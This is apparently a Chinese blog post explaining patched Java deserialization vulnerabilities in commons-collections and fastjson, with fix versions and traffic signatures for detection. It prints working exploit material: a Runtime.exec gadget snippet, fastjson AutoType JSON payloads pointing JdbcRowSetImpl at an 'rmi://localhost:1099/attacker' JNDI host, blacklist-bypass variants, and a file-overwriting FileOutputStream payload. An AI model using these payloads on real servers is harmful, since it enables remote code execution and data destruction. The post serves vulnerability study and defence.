最近在看java序列化相关的东西，碰巧遇到两个有趣的东西，于是今天就来讲这两个序列化漏洞。


<font color="red">「声明：本博客中涉及到的相关漏洞均为官方已经公开并修复的漏洞，涉及到的安全技术也仅用于企业安全建设和安全对抗研究。本文仅限业内技术研究与讨论，严禁用于非法用途，否则产生的一切后果自行承担。」:)</font>


## commons-collections 的反序列化漏洞

**背景**

Apache的commons-collections 这个框架，大家应该都听说过，是一个比较有名的的集合框架。虽然现在最新版是 4.4，但是使用比较广泛的还是 3.x 的版本。其实，在 3.2.1 及以下版本中，存在一个比较大的安全漏洞，可以被利用来进行远程命令执行。

什么是远程执行命令：发送攻击的command命令到被攻击服务器，让被攻击服务器执行该命令。

这个漏洞在 2015 年第一次被披露出来，但是业内一直称这个漏洞为**2015年最被低估的漏洞**。

因为这个类库的使用实在是太广泛了， 首当其中的就是很多 Java Web Server， 这个漏洞在当时横扫了 WebLogic、WebSphere、JBoss、Jenkins、OpenNMS 的最新版。


**问题复现**

Collections提供了一个`Transformer`接口，这个接口主要是用来进行对象转换的。其中的一个实现类就和介绍的漏洞息息相关：`InvokerTransformer`。



核心代码就三行：反射调用方法实例化传入的对象。而实例化所需的方法名称、参数等信息是通过构造函数传入的


说白了，就是利用该类几乎能执行java中的任何方法。于是，就可以用它来执行外部命令了。

Java中是通过`Runtime.getRuntime().exec(cmd)`的形式来执行外部命令的，那么这个对象就可以这样来用了

```java
Transformer transformer = new InvokerTransformer("exec",
        new Class[]{String.class},
        new Object[]{"calc"}); // 打开本地的计算器

transformer.transform(Runtime.getRuntime());
```

运行后就自动执行外部命令，打开电脑上的计算器了


那是不是可以序列化该对象，再反序列化后执行命令？

先将 transformer 对象序列化到文件中，再从文件中读取出来，并且执行其 **transform** 方法，就实现了攻击。


但一般而言，也没有人会这么傻，传个`Runtime`对象进去。所以还需要做几件额外的事情，这就利用到了 collections 下提供的另一个类：`ChainedTransformer`。

`ChainedTransformer`类提供了一个`transform()`方法，它的功能是遍历 **iTransformers** 数组，然后依次调用其 `transform()` 方法， 并且每次都返回一个对象，这个对象又可以作为下一次调用的参数。



利用这个特性，再重新实现一下上面的功能




现在`transform()`方法中传入任何东西都可以自动调用外部命令了。但是还有个问题，还需要用户配合，手动调用方法？

于是，攻击者又发现 collections 中提供了一个`LazyMap`对象，这个类的`get()`方法中会调用`transform()`方法（collections还真的是懂得黑客想什么）


顺藤摸瓜，又找到 collections 中的`TiedMapEntry`类的`getValue()`方法会调用到`LazyMap.get()`方法，而`getValue()`方法又会被其中的`toString()`方法调用到。

这样就说明只要构造一个`TiedMapEntry`对象，反序列化后，调用对象的`toString()`方法就会自动触发外部命令执行了。


代码进一步升级




当然，还要调用`toString()`方法肯定不会满足的，能不能只要反序列化就会被攻击？

经过深入挖掘，还真有方法，找到了一个`BadAttributeValueExpException`类，该类是java中提供的一个异常类。因为java反序列化对象的时候，会调用对象的`readObject()`方法，而`BadAttributeValueExpException`类的`readObject()`方法里正好直接调用了`toString()`方法。





反序列化时取了原本对象的`val`变量，调用了`toString()`方法，但从构造函数中可以看到不能直接对`val`赋值，所以采用反射的方法赋值，代码升级为最终版本




**问题解决**

以上，是 collections 类库带来的反序列化有关的远程代码执行漏洞的完整版本。可以通过将生成的序列化文件，发送到会进行反序列化的服务器上，就会自动执行我们指定好的远程命令。

> 从流量上分析，java序列化的数据为以 **ac ed 00 05** 开头，base64编码后的特征为**rO0AB**
>
> 从代码上分析，可以关注 **readObject()** 方法的使用点
>
> 将数据包中Base64编码的序列化数据 替换为我们构造的恶意数据，发送到对应的服务端，实现远程命令执行


因为这个漏洞影响范围很大，所以在被爆出来之后就被修复掉了，只需要将 commons-collections 类库升级到 **3.2.2** 版本，即可避免这个漏洞。

修复的主要方案就是针对相关类在序列化和反序列化的时候进行安全检查。




## fastjson 的反序列化漏洞

fastjson 大家一定都不陌生，这是阿里巴巴的开源一个 JSON 解析库，通常被用于将 Java Bean 和  JSON 字符串之间进行转换。

大家都知道它 可能是因为它的bug出了名的多，但知道它为什么会有这么多bug吗？

其实是因为和它内部的一个AutoType机制有关。

看看fastjson以前的发布升级通知

| 版本   | 说明                                                         |
| ------ | ------------------------------------------------------------ |
| 1.2.59 | 增强 AutoType 打开时的安全性                                 |
| 1.2.60 | 增加了 AutoType 黑名单，修复拒绝服务安全问题                 |
| 1.2.61 | 增加 AutoType 安全黑名单                                     |
| 1.2.62 | 增加 AutoType 黑名单、增强日期反序列化和 JSONPath            |
| 1.2.66 | Bug 修复安全加固，并且做安全加固，补充了 AutoType 黑名单     |
| 1.2.67 | Bug 修复安全加固，补充了 AutoType 黑名单                     |
| 1.2.68 | 支持 GEOJSON， 补充了 AutoType 黑名单（引入一个 safeMode 的配置，配置 safeMode 后，无论白名单和黑名单，都不支持 autoType） |
| 1.2.69 | 修复新发现高危 AutoType 开关绕过安全漏洞，补充了 AutoType 黑名单 |
| 1.2.70 | 提升兼容性，补充了 AutoType 黑名单                           |


甚至在 fastjson 的开源库中，有一个 Issue 是建议作者提供不带 autoType 的版本




那么，什么是 AutoType呢？为什么 fastjson 要引入 AutoType？为什么 AutoType 会导致安全漏洞呢？

json类库对对象序列化、反序列化的时候一般都会调用对象的getter、setter方法




那么问题来了，`Fruit`只是一个接口，反序列化`Store`对象的时候怎么样？

先看下序列化后的东西：




将`Fruit`还原成`Apple`看看



在将`Store`反序列化之后，我们尝试直接转换成`Fruit`不会报错，转换成`Apple`却抛出了异常。

可以得出，fastjson序列化时，会将子类型抹去，只保留接口类型，反序列化后无法拿到原始对象类型。


于是fastjson就引入了AutoType机制，即 在序列化的时候，将原始类型记录下来。做法就是在对象序列化时，通过`SerializerFeature.WriteClassName`进行标记。


可以看到json中多了`@type`字段，并且反序列化后能得到正确的对象类型，这就是AutoType机制的作用。

也正是这个特性，给fastjson带来了无尽的bug。


AutoType的功能是在对象反序列化时，读取`@type`，将对象反序列化成指定的类型，并且调用该类的setter方法。那么就可以利用这个特性，指定要攻击的类库。

再继续下去之前，需要先知道一个**jndi注入攻击**的攻击手段

> 具体的原理可以自己去查找资料，此处不进行讲解，文后有源代码可自行操作



想上面的图那样，通过一个`lookup()`的方法传入一个url，就可以攻击目标客户端了。


在fastjson中的攻击手段中常用的就是使用的jndi注入的方式。

例如，常用的攻击类库是`com.sun.rowset.JdbcRowSetImpl`，这个类的**dataSourceName**可以传入一个 rmi 的源，当设置自动提交时，就会进行 rmi 远程调用，去指定的 rmi 地址中去调用方法。而 fastjson 在反序列化时会恰好也会调用目标类的 setter 方法。





于是，json就可以为这样子：

```json
{
    "@type":"com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName":"rmi://localhost:1099/attacker",
    "autoCommit":true
}
```

这样，当被攻击服务器解析这段json时，就会被攻击


在早期的 fastjson 版本中（ v1.2.25 之前），因为 AutoType 机制是默认开启的，并且也没有什么限制，可以说是裸着的。

从 **v1.2.25** 开始，fastjson 默认关闭了 autotype 支持，并且加入了 checkAutotype，加入了黑、白名单来防御 autotype 开启的情况。

于是，fastjson和黑客们的攻防战就开始了。

因为 fastjson 默认关闭了 autotype 支持，并且做了黑白名单的校验，所以攻击方向就转变成了**如何绕过 checkAutotype**。


在 **v1.2.42** 之前，在 checkAutotype 的代码中，会先进行黑白名单的过滤，如果要反序列化的类不在黑白名单中，那么才会对目标类进行反序列化。

但是在加载的过程中，fastjson 有一段特殊的处理，那就是在具体加载类的时候会去掉 className 前后的 `L` 和 `;`，类似`Lcom.sun.rowset.JdbcRowSetImpl;`。



而黑白名单又是通过 startWith 检测的，那么黑客只要在自己想要使用的攻击类库前后加上 `L` 和 `;` 就可以绕过黑白名单的检查了，也不耽误被 fastjson 正常加载。于是攻击就变成了这样：

```json
{
    "@type":"Lcom.sun.rowset.JdbcRowSetImpl;",
    "dataSourceName":"rmi://localhost:1099/attacker",
    "autoCommit":true
}
```


为了避免被攻击，在之后的 **v1.2.42** 版本中，在进行黑白名单检测的时候，fastjson 先判断目标类的类名的前后是不是 `L` 和 `;`，如果是的话，就截取掉前后的 `L` 和 `;` 再进行黑白名单的校验。

看似解决了问题，但发现了这个规则之后，就在攻击的目标类前后双写 `LL` 和 `;;`，这样再被截取之后还是可以绕过检测。如 `LLcom.sun.rowset.JdbcRowSetImpl;;`。

```json
{
    "@type":"LLcom.sun.rowset.JdbcRowSetImpl;;",
    "dataSourceName":"rmi://localhost:1099/attacker",
    "autoCommit":true
}
```

fastjson 发现后又短暂的修复了这个漏洞，只要以 `L` 开头或 `;` 结尾的直接抛异常。


在之后的几个版本中，黑客的主要的攻击方式就是绕过黑名单了，而 fastjson 也在不断的完善自己的黑名单。

好景不长，在升级到 **v1.2.47** 版本时，黑客再次找到了办法来攻击。而且这个攻击只有在 **autoType 关闭**的时候才生效。

因为在 fastjson 中有一个全局缓存，在类加载的时候，如果 autotype 没开启，会先尝试从缓存中获取类，如果缓存中有，则直接返回。黑客正是利用这种机制进行了攻击：将一个类加到缓存中，然后再次执行的时候就可以绕过黑白名单检测了，多么聪明的手段。

首先想要把一个黑名单中的类加到缓存中，需要使用一个不在黑名单中的类，这个类就是 `java.lang.Class`，这个类对应的反序列化器是`MiscCodec`，反序列化时会取出一个`val`属性，并加载这个`val`对应的值（全类名）


如果 cache 为 true，就会缓存这个 `val` 对应的 class 到全局缓存中。


这样，攻击就变成了这样：

```json
// 第一次加载进缓存
{
    "@type":"java.lang.Class",
    "val":"com.sun.rowset.JdbcRowSetImpl"
}
```

```json
// 第二次进行攻击
{
    "@type":"com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName":"rmi://localhost:1099/attacker",
    "autoCommit":true
}
```


于是在 **v1.2.48** 中，fastjson 修复了这个 bug，在 `MiscCodec` 中，处理 Class 类的地方，默认设置 cache 为 `false`，这样攻击类就不会被缓存了，也就不会被获取到了。


在之后的多个版本中，黑客与 fastjson 又继续一直都在绕过黑名单、添加黑名单中进行周旋。直到后来， 黑客在 **v1.2.68** 版本中又发现了一个新的漏洞利用方式。


在 fastjson JavaBean的反序列化方法中，当还有一个字段的 key 也是 `@type` 时，就会把这个 value 当做类名，然后进行一次 checkAutoType 检测，并且校验对应的值是否为 **expectClass** 的子类型，如果都符合，那么校验就会通过校验。  


攻击就成了这样：

```json
{
    "@type":"java.lang.AutoCloseable",
    "@type":"java.io.FileOutputStream",
    "file":"E://test.txt",
    "append":false
}
```

可以清空指定的文件，或者向指定文件写入内容等等。

因为类加载时，会自动将 `AutoCloseable` 放入内置的反序列化 classMappings 中的，就是之前缓存绕过 autoType 的那个 mappings，所以导致了 `AutoCloseable` 是能直接被反序列化的。


> 还有一种异常的版本~~

这个漏洞就是去年 6 月份全网疯传的那个**严重漏洞**，使得很多开发者不得不升级到最新的版本。

这个漏洞在 **v1.2.69** 中被修复，主要修复方式是对于需要过滤掉的 expectClass 进行了修改，新增了 3 个新的类，并且将原来的 Class 类型的判断修改为 hash64 的判断。

> AutoCloseable/Readable/Runnable


根据 fastjson 的官方文档介绍，即使不升级到新版，在 **v1.2.68** 中也可以规避掉这个问题，那就是使用 safeMode。

```java
ParserConfig.getGlobalInstance().setSafeMode(true);
```

可以看到，这些漏洞的利用几乎都是围绕 AutoType 来的，于是，在 **v1.2.68** 版本中，引入了 safeMode，配置 safeMode 后，会直接禁用 autoType 功能，即，在checkAutoType 方法中，直接抛出一个异常。




目前 fastjson 已经发布到了 **v1.2.75** 版本，历史版本中存在的已知问题在新版本中均已修复。

因为 fastjson 自己定义了序列化工具类，并且使用 asm 技术避免反射、使用缓存、并且做了很多算法优化，大大提升了序列化及反序列化的效率。当然，快的同时也带来了一些安全性问题，这是不可否认的。

附上一张内网传出的图：


虽然 fastjson 是阿里巴巴开源出来的，但是这个项目大部分时间都是其作者**温少**一个人在靠业余时间维护的。

几乎凭一己之力撑起了一个 JSON 类库，就凭这一点，阿里初代开源人，就当之无愧了。


> 最后附上[漏洞测试源代码](https://gitee.com/hyfsynb/serialize-attack)


## 参考安全博客网站

- https://paper.seebug.org

- https://kingx.me


